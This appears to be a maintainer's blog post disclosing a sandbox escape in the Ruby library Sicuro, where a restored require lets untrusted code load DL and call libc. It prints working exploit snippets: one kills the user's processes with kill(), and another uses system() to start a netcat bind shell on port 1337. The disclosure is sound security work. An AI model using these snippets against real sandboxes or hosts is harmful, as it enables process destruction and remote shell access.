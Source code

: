 ```yaml
---
title: Untrusted Code Execution Bug in Sicuro
tags: sicuro security bug untrusted code execution
layout: post
---
```


[Jens Nockert](http://twitter.com/jensnockert) has exposed a rather major security hole in Sicuro.

Under basically any circumstances, Sicuro can be used to execute untrusted code. The demonstrated technique used by Jens was to terminate all processes that can be terminated by the user who ran the initial `Sicuro#eval` call. I have demonstrated the ability to use it to access a remote shell, but am unsure if it could be used for privilege escalation.

# The main problem

It appears that attempts at making Sicuro more efficient have actually left it wide open to abuse. There was an attempt to make it lazily load trusted components, and that seems to have opened up a bug letting you `require` anything in the stdlib, including DL. DL is used for loading shared objects and calling functions in them.

Please note that it can `require`, _any_ code in the ruby stdlib, and this is just _a single example._

The following is the relevant part of the code for lazily loading trusted components. You can view it in context in [lib/sicuro/base.rb](https://github.com/duckinator/sicuro/blob/761e955fbbba07638d69bc62159199cdf0716a7d/lib/sicuro/base.rb#L254-256), lines 254 through 256.

    # Without Gem we won't require unresolved gems, therefore we restore the original require.
    # This allows us to lazy-require other trusted components from the same $LOAD_PATH.
    ::Kernel.module_eval { alias require gem_original_require }

Following is a tidied up version of the code that exposed the bug.

    require 'dl'
    require 'dl/import'
    
    module Libc
      extend DL::Importer
      dlload '/lib/libc.so.6'
      extern 'int kill(int, int)'
    end
    
    Libc.kill(0, 9)

Calling `Libc.kill(-1, 9)` will terminate _all processes the user who called `Sicuro.eval` can terminate._

Here is similar code that will allow you to execute arbitrary shell code:

    require 'dl'
    require 'dl/import'
    
    module Libc
       extend DL::Importer
       dlload '/lib/libc.so.6'
       extern 'int system(const char*)'
    end
    
    Libc.system('nc -lp 1337 -e /bin/bash &amp;')

Congratulations, you now can run `netcat $IP 1337` to connect. The IP could easily be gained through similar means.

There's a video at the bottom, but it's a bit difficult to read at that scale, so you can [go directly to the video](/assets/sicuro-untrusted-code-execution-bug.ogv).

It may also be possible to escalate privileges using this method.

# The small problem

There's always something hiding, right? That little thing you find when hunting another bug. This one happened to be that `GC`, `Signal`, and `ObjectSpace` were whitelisted. This isn't exactly good.

At the very least, `GC.disable` could make it use too much memory, causing instability, and `Signal.trap` could be used to handle signals used to terminate the process &ndash; and ignore them. I'm not entirely sure what `ObjectSpace` can be used for, but I do not know what it does, so I do not like it being whitelisted. I've also been told `ObjectSpace` is "dangerous." I may look into this later.

`GC`, `Signal`, and `ObjectSpace` will not be whitelisted as of the next release.

# Conclusion

While removing things from the whitelist was trivial, it appears fixing the code execution problem is proving immensely difficult. I am not sure I will be able to fix it and retain all current functionality.

I highly recommend that, once the next version is released, everyone upgrade immediately. This is a major security hole, and allows execution of any untrusted code that can be done through a shared library. This includes calls to `system()` and related functions, as mentioned above.



<video style="width: 100%; max-width: 798px;" controls="controls" src="/assets/sicuro-untrusted-code-execution-bug.ogv"></video>
